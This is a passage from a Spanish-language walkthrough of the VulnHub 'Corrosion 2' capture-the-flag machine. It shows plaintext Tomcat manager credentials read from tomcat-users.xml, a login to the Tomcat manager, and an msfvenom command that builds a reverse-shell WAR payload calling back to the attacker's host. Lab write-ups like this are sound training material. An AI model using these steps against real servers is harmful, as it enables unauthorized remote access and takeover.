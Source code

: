 ```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# cat tomcat-users.xml 
────────────────────────────────────────────────────────────────────────────────────────────
File: tomcat-users.xml
────────────────────────────────────────────────────────────────────────────────────────────
<?xml version="1.0" encoding="UTF-8"?>

<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
</tomcat-users>
────────────────────────────────────────────────────────────────────────────────────────────
```
Las credentiales obtenidas podemos utlizarlas para loguearnos por la url de tomcat `http://192.168.200.151:8080/manager/` con las credenciales `admin:melehifokivai`, y con eso ganamos acceso la administración de apache tomcat
![alt text](https://i.postimg.cc/W1sWHPSr/corrosion2.png)

En la categoria WAR file to deploy, se puede subir exploits con la extension `.war` y sobre estos generar una shell reversa, para esto se puede utilizar la herramienta msfvenom para generar payload tipo java.

```java
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/corrosion2/exploits]
└─$ msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell
```
> * -l: Sirve para listar los payloads.
Para crear el payload se utiliza el `msfvenom
```java
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/corrosion2/exploits]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=192.168.200.147 LPORT=443 -f war -o reverse.war
Payload size: 13325 bytes
Final size of war file: 13325 bytes
Saved as: reverse.war
```
> * -p.- Establecer el nombre de payload `java/shell_reverse_tcp`.
> * LHOST.- Direccion IP del host remoto al que se va conectar.
> * LPORT.- Numero de puerto del host remoto al que se va conectar.
> * -f.- Tipor de archivo que se debe generar. `war`
> * -o.- Nombre el archivo que se va a exportar. `reverse.war`